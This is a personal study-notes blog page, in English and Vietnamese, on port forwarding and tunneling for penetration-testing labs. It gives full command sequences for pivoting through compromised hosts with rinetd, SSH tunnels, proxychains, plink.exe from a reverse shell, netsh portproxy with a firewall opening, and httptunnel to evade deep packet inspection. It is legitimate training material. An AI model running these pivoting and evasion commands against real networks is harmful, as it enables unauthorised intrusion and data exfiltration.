 ```yaml
---
template: overrides/author.html
title: Port Redirection Tunneling
---
```


<aside class="mdx-author" markdown>
![@squidfunk][@squidfunk avatar]

<span>__08__ · @nhotran</span>
<span>
:octicons-calendar-24: May 5, 2022 ·
:octicons-clock-24: 3 min read
</span>
</aside>

  [built-in search plugin]: ../../setup/setting-up-site-search.md#built-in-search-plugin
  [@squidfunk avatar]: ../assets/author/nhoicon.png
  [insiders-4.14.0]: ../../insiders/changelog.md#4.14.0

---

## Port Forwarding
```ad-info
Port forwarding is the simplest traffic manipulation technique we will examine in which we redirect traffic destined for one IP address and port to another IP address and port.
 Machine / account 
 	 attacker | kali@ttnho  
	 client1  | ntt@debian  
 	 client2  | winserver 2016
*Note: kali and debian open port ssh*
```

#### RINETD (use rinetd  to redirect any traffic)
In this fairly-common scenario, our first target, the Linux web server, has Internet connectivity, but the second machine, the Linux client, does not. We were only able to access this client by pivoting through the Internet-connected server. In order to pivot again, this time from the Linux client, and begin assessing other machines on the internal network, we must be able to transfer tools from our attack machine and exfiltrate data to it as needed. Since this client can not reach the Internet directly, we must use the compromised Linux web server as a go-between, moving data twice and creating a very tedious data transfer process.
![](port-redirection-tunneling/Pasted%20image%2020220818233840.png)

Check  access the internet:
```bash
kali@ttnho:~$ ping google.com -c 1
kali@ttnho:~$ nc -nvv 216.58.207.142 80
```
*Vì máy linux client không thể truy cập internet do đó để thực hiện transfer  file to internet-connected host, chúng ta phải transfer them to Linux web  server và sau đó transfer chúng 1 lần nữa tới our intended destination. Thay vào đó chúng ta có thể sử dụng port forwarding tool "rinetd" để redirect traffic on out kali linux server.*

Install rinetd tool:
```bash
kali@ttnho:~$ sudo apt update && sudo apt install rinetd
```
Sau khi cài đặt rinetd, thực hiện edit file configuration */etc/rinetd.conf*  thực hiện tạo forwarding yêu cầu có 4 paramerers:  *bindaddress - bindport - connectaddress - connectport*

Install rinetd tool
```bash
kali@ttnho:~$ sudo apt update && sudo apt install rinetd
```

Exam: use rinetd to redirect any traffic received by the Kali web server on port 80 to the google.com IP address we used in our tests. To do this, we will edit the rinetd configuration file and specify the following forwarding rule	0.0.0.0 80 216.58.207.142 80
Check file configuration rinetd:
```bash
kali@ttnho:~$ cat /etc/rinetd.conf
	...
	# bindadress  bindport  connectaddress  connectport
	0.0.0.0 80 216.58.207.142 80
	...
```

Restart rinetd service
```bash
kali@ttnho:~$ sudo service rinetd restart
```
![](port-redirection-tunneling/Pasted%20image%2020220818233811.png)


## SSH Tunneling
### SSH Local Port Forwarding
SSH _local port forwarding_ allows us to tunnel a local port to a remote server using SSH as the transport protocol. The effects of this technique are similar	to rinetd port forwarding, with a few twists

Check config ssh local port forwarding:
```bash
root@ttnho:~$ cat 	/root/port_forwarding_and_tunneling/ssh_local_port_forwarding.sh
```

SSH Local port forwarding 
```bash
kali@ttnho:~$ sudo ssh -N -L [bind_address:]port:host:hostport [username@address]
kali@ttnho:~$ sudo ssh -N -L 0.0.0.0:445:192.168.1.110:445 ntt@10.11.0.128
```
	   	![](port-redirection-tunneling/Pasted%20image%2020220819133119.png)

### SSH Remote Port Forwarding
```bash
ntt@debian:~$ ssh -N -R [bind_address:]port:host:hostport [username@address]
ntt@debian:~$ ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```
	![](port-redirection-tunneling/Pasted%20image%2020220819133150.png)

### SSH Dynamic Port Forwarding
Dynamic port forwarding allows you to create a socket on the local (ssh client) machine, which acts as a SOCKS proxy server. When a client connects to this port, the connection is forwarded to the remote (ssh server) machine, which is then forwarded to a dynamic port on the destination machine. This way, all the applications using the SOCKS proxy will connect to the SSH server, and the server will forward all the traffic to its actual destination.

Dynamic Port Forwarding
```bash
kali@ttnho:~$ ssh -N -D [address_bind]:port_bind [username@<IP_server>]		
kali@ttnho:~$ sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
```

Modify proxychains config
```bash
kali@ttnho:~$ cat /etc/proxychains.conf
	...
	[ProxyList]
	#add proxy here
	#meanwile
	#defaults set to "tor"
	socks4 127.0.0.1 8080
```
		![](port-redirection-tunneling/Pasted%20image%2020220819135043.png)

Thực thi lênh với proxychains
```bash
kali@ttnho:~$ sudo proxychains nmap --top-port=20 -sT -Pn 192.168.1.10
```

## PLINK.exe
```ad-note
Tình huống: we have gained access to a Windows 10 machine during our assessment through a vulnerability. We would like to scan this database or interact with the service. However, because of the firewall, we cannot directly interact with this service from our Kali machine.
=>use plink.exe to connect via SSH (-ssh) to our Kali machine (10.11.0.4) as the kali user (-l kali) with a password of "ilak" (-pw ilak) to create a remote port forward (-R) of port 1234 (10.11.0.4:1234) to the MySQL port on the Windows target (127.0.0.1:3306)
```

```powershell
c:\nho> plink.exe
c:\nho> plink.exe -ssh -l kali -pw kali -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

#However, since this will most likely not work with the interactivity level we have in a typical reverse shell, we should pipe the answer to the prompt with the cmd.exe /c echo y command. From our reverse shell, then, this command will successfully establish the remote port forward without any interaction:
c:\nho> cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

#Now that our tunnel is active, we can attempt to launch an Nmap scan of the target's MySQL port via our localhost port forward on TCP port 1234:
kali@ttnho:~$ sudo nmap -sS -sV 127.0.0.1 -p 1234
```

## NETSH
```ad-note
Yêu cầu:
+ The windows system must have the IP Helper service running
+ IPv6 support must be enabled for the interface we want to use
Example: we will use the netsh (interface) context to add an IPv4-to-IPv4 (v4tov4) proxy (portproxy) listening on 10.11.0.22 (listenaddress=10.11.0.22), port 4455 (listenport=4455) that will forward to the Windows 2016 Server (connectaddress=192.168.1.110) on port 445 (connectport=445)

Note: Các câu lệnh đc thực hiện trên máy compromised
```

```powershell
c:\Windows\system32> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110

#Check port 4455 is listening on the compromised windows host
c:\Windows\system32> netstat -anp TCP | find "4455"

#using netsh to allow inbound traffic on TCP port 4455 (default Windows Firewall will disallow inbound connection on TCP port 4455)
c:\Windows\system32>netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow

#connect to compromised windows machine on port 4455 using smbclient
kali@ttnho:~$ sudo nano /etc/samba/smb.conf
kali@ttnho:~$ cat /etc/samba/smb.conf
kali@ttnho:~$ sudo /etc/init.d/smbd restart
kali@ttnho:~$ smbclient -L 10.11.0.22 --port=4455 --user=Administrator

kali@ttnho:~$ sudo mkdir /mnt/win10_share
kali@ttnho:~$ sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share
kali@ttnho:~$ ls -l /mnt/win10_share/
kali@ttnho:~$ cat /mnt/win10_share/data.txt
```

## HTTPTunneling through Deep Packet Inspection
```ad-note
Certain deep packet content inspection devices may only allow specific protocols. If, for example, the SSH protocol is not allowed, all the tunnels that relied on this protocol would fail.
```

![](port-redirection-tunneling/Pasted%20image%2020220823145718.png)

View content of the http_tunneling
```shell
root@debian:~$ cat /root/port_forwarding_and_tunneling/http_tunneling.sh
root@debian:~$ /root/port_forwarding_and_tunneling/http_tunneling.sh
```

Install HTTPtunnel
```shell
kali@ttnho:~$ apt-cache search httptunnel
kali@ttnho:~$ sudo apt install httptunnel
```

Local port forward from debian to windows server remote desktop port
```shell
www-data@debian:/$ ssh -L 0.0.0.0:8888:192.168.1.110:3389 student@127.0.0.1
ntt@debian:~$ ss -antp | grep "8888"
```

Setting up the server component of HTTPTunnel
```shell
ntt@debian:~$ hts --forward-port localhost:8888 1234
ntt@debian:~$ ps aux | grep hts
ntt@debian:~$ ss -antp |grep "1234"
```

Setting up the client component of HTTPTunnel
```shell
kali@ttnho:~$ htc --forward-port 8080 10.11.0.128:1234
kali@ttnho:~$ ps aux | grep htc
kali@ttnho:~$ ss -antp | grep "8080"
```

Check rdp from kali to windows server
```shell
kali@ttnho:~$ rdesktop 127.0.0.1:8080
```